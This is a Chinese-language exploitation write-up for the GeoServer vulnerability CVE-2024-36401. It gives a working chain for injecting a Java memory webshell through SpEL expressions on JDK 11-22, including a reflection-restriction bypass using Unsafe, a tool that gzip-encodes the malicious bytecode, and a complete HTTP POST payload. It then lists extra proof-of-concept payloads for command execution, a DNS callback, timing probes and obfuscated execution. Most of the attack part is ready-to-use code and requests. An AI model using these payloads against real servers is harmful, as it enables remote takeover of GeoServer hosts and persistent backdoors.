



## 前序

看到了Numen Cyber Labs发表的《[CVE-2024-36401 JDK 11-22 通杀内存马](https://mp.weixin.qq.com/s/jCOp9A-qO8ViqLx3ui0XHg)》一文，通过SpEL表达式执行的方式完成JDK 11 - 22的全版本JDK内存马注入攻击，想着师傅思路都写得这么详细了，本地复现一下还不是有手就行，结果不出意外的失败了。

本文通过 SpEL 表达式执行的方式完成对GeoServer(CVE-2024-36401)漏洞下高版本JDK内存马注入攻击的利用，并对利用过程中进行总结。

## **SpEL 注入内存马**

**1. JMG生成内存马**

首先利用JMG生成内存马注入代码，由于通过bin形式安装默认是Jetty，这里选择Jetty类型，注入器类名需要在`org.springframework.expression`下，这里定义个`Test`



**2. Bypass JDK16+ 反射限制**

为了绕过JDK16+ 的反射限制，我们需要在内存马中添加反射绕过代码，可以选择修改JMG的代码实现，这里我们选择对 JMG 生成的字节码进行反编译，在反编译后的代码中添加反射绕过代码，并对后续需要压缩字符串长度的需求做准备。

在反编译后的代码中找到`getListener`方法，在`byte[] clazzByte = gzipDecompress(decodeBase64(this.getBase64String()));`这一行前添加如下反射绕过代码：

```java
Class unsafeClass = Class.forName("sun.misc.Unsafe");
Field unsafeField = unsafeClass.getDeclaredField("theUnsafe");
unsafeField.setAccessible(true);
Unsafe unsafe = (Unsafe) unsafeField.get(null);
Module module = Object.class.getModule();
Class cls = HelpUtils.class;
long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
unsafe.getAndSetObject(cls, offset, module);
```

其中`HelpUtils`需要替换成当前类名，这里替换成`Test`



1. **编译生成`gzip + Base64`字节码**

由于JMG 的 Payload 是直接使用 Base64 编码的，部分类型的内存马直接使用会因为字符串长度超过了 10,000，而触发`SpEL expression is too long, exceeding the threshold of '10,000' characters`异常，因此我们需要把字节码的字符串压缩到10,000以内，可以通过以下步骤进行：

**(1). 手动编译恶意字节码**

```
javac -g:none .\Test.java -Xlint:unchecked  -Xlint:deprecation
```

**(2). gzip 压缩字节码后转换成 Base64 输出**

这里提供一个java代码进行上述操作，**需要修改的是代码中的`javaFilePath`和`javacPath`**:

```java
import java.io.*;
import java.util.Base64;
import java.util.ArrayList;
import java.util.List;
import java.util.zip.GZIPOutputStream;

public class Evil {

    public static void main(String[] args) {
        // 内存马代码文件
        String javaFilePath = "Test.java";
        String classFilePath = getClassNameFromJavaPath(javaFilePath) + ".class";
        // 输出'gzip + Base64'的恶意字节码到文件
        String outputFilePath = "SpELMemShell.txt";

        try {
            // 编译 .java 文件
            compileJavaFile(javaFilePath);

            // 检查 .class 文件是否已生成
            if (!new File(classFilePath).exists()) {
                throw new FileNotFoundException("The compiled class file was not generated.");
            }

            // 压缩并编码 .class 文件
            String base64String = compressAndEncodeClassFile(classFilePath);

            // 写入文件
            writeToFile(outputFilePath, base64String);
        } catch (IOException e) {
            System.err.println("Error processing the file: " + e.getMessage());
        }
    }

    private static void compileJavaFile(String javaFilePath) throws IOException {
        // 内存马中的Object.class.getModule()方法是在Java 9及更高版本中引入的，因此需要指定使用Java 9+的javac进行编译
        String javacPath = "D:\\SDE\\Java\\jdk-11.0.21\\bin\\javac.exe";

        List<String> command = new ArrayList<>();
        command.add(javacPath); // 使用 javac 的完整路径
        command.add("-g:none");
        command.add("-Xlint:unchecked");
        command.add("-Xlint:deprecation");
        command.add(javaFilePath);

        ProcessBuilder processBuilder = new ProcessBuilder(command);
        Process process = processBuilder.start();

        // 等待编译完成
        try {
            int exitCode = process.waitFor();
            if (exitCode != 0) {
                BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));
                String line;
                while ((line = errorReader.readLine()) != null) {
                    System.err.println(line);
                }
                throw new RuntimeException("Compilation failed with exit code " + exitCode);
            }
        } catch (InterruptedException e) {
            Thread.currentThread().interrupt();
            throw new IOException("Compilation interrupted", e);
        }
    }

    private static String compressAndEncodeClassFile(String classFilePath) throws IOException {
        byte[] classData = readFile(classFilePath);

        // 使用 gzip 进行压缩
        byte[] compressedData = compress(classData);

        // 将压缩后的数据转换为 Base64 编码
        String encodedCompressedData = Base64.getEncoder().encodeToString(compressedData);

        // 输出原始长度和新的 Base64 编码长度
        System.out.println("Original Base64 encoded string length: " + classData.length);
        System.out.println("New Base64 encoded string length after gzip compression: " + encodedCompressedData.length());

        return encodedCompressedData;
    }

    private static byte[] readFile(String filePath) throws IOException {
        try (FileInputStream fis = new FileInputStream(filePath)) {
            byte[] data = new byte[fis.available()];
            fis.read(data);
            return data;
        }
    }

    private static byte[] compress(byte[] data) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        try (GZIPOutputStream gzos = new GZIPOutputStream(baos)) {
            gzos.write(data);
        }
        return baos.toByteArray();
    }

    private static void writeToFile(String filePath, String content) throws IOException {
        try (BufferedWriter writer = new BufferedWriter(new FileWriter(filePath))) {
            writer.write(content);
        }
    }

    private static String getClassNameFromJavaPath(String javaFilePath) {
        String fileName = new File(javaFilePath).getName();
        return fileName.substring(0, fileName.indexOf('.'));
    }
}
```

**4. 替换SpEL Payload**

最后我们将字符串替换到 Payload 中`gzip + Base64`的位置

```
POST /geoserver/wfs HTTP/1.1
Host: 192.168.150.147:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.1 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 9160

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>toString(getValue(parseRaw(org.springframework.expression.spel.standard.SpelExpressionParser.new(),"T(org.springframework.cglib.core.ReflectUtils).defineClass('org.springframework.expression.Test',T(org.apache.commons.io.IOUtils).toByteArray(new java.util.zip.GZIPInputStream(new java.io.ByteArrayInputStream(T(org.springframework.util.Base64Utils).decodeFromString('gzip + Base64')))),T(java.lang.Thread).currentThread().getContextClassLoader(),null,T(java.lang.Class).forName('org.springframework.expression.ExpressionParser'))")))
</wfs:valueReference>
</wfs:GetPropertyValue>
```

**5. 发送报文，一键注入内存马**



## 其他POC

### 命令执行测试

```xml
<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'calc')
</wfs:valueReference>
</wfs:GetPropertyValue>
```

### DNSLog测试

```xml
<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>java.net.InetAddress.getAllByName("xxx.dnslog.xxx")
</wfs:valueReference>
</wfs:GetPropertyValue>
```

### 基于时间的延迟测试

**Payload(1):**

```xml
<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>java.lang.Thread.sleep(2000)
</wfs:valueReference>
</wfs:GetPropertyValue>
```

**Payload(2):**

```xml
<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>
/+java.lang.T<!--IgnoreMe!!!!-->hread.s[(: IGNORE :)]leep
   <![CDATA[
(2000)
]]>
  </wfs:valueReference>
</wfs:GetPropertyValue>
```

### SpEL命令执行

**Payload(1):**

```xml
<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
    <wfs:valueReference>getValue(parseRaw(org.springframework.expression.spel.standard.SpelExpressionParser.new(),"T(java.lang.Runtime).getRuntime().exec('control')"))
</wfs:valueReference>
</wfs:GetPropertyValue>
```

**Payload(2):**

```xml
<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>getValue(parseRaw(org.springframework.expression.spel.standard.SpelExpressionParser.new(),"T(java.lang.Runtime).getRuntime().exec(new java.lang.String(T(java.util.Base64).getDecoder().decode('Y2FsYw==')))"))
</wfs:valueReference>
</wfs:GetPropertyValue>
```

## 总结

本文是对Numen Cyber Labs师傅通过 SpEL 表达式执行的方式完成内存马注入攻击的一次利用总结，并对利用过程中发现的问题进行Payload完善，例如：

- 打这个漏洞如果返回`java.lang.ClassCastException`是正常的，返回`No such attribute`就说明有问题了。
- 原文中并没有给出最终的payload，在给出解决的 Payload 中：`T(java.lang.Class).forName("org.springframework.expression.ExpressionParser")`因为使用了""，在利用时会因为xpath格式校验而触发异常，所以需要注意单双引号的使用。
- 最终的Payload添加对`gzip + Base64`处理的代码。

最后，再次感谢Numen Cyber Labs师傅提供的思路。

## 参考

- [GeoServer property RCE注入内存马 (qq.com)](https://mp.weixin.qq.com/s/beRJ8-HOMJbA43jYMMS0Pg)
- [CVE-2024-36401 JDK 11-22 通杀内存马 (qq.com)](https://mp.weixin.qq.com/s/jCOp9A-qO8ViqLx3ui0XHg)
- https://github.com/pen4uin/java-memshell-generator
- https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2024-36401
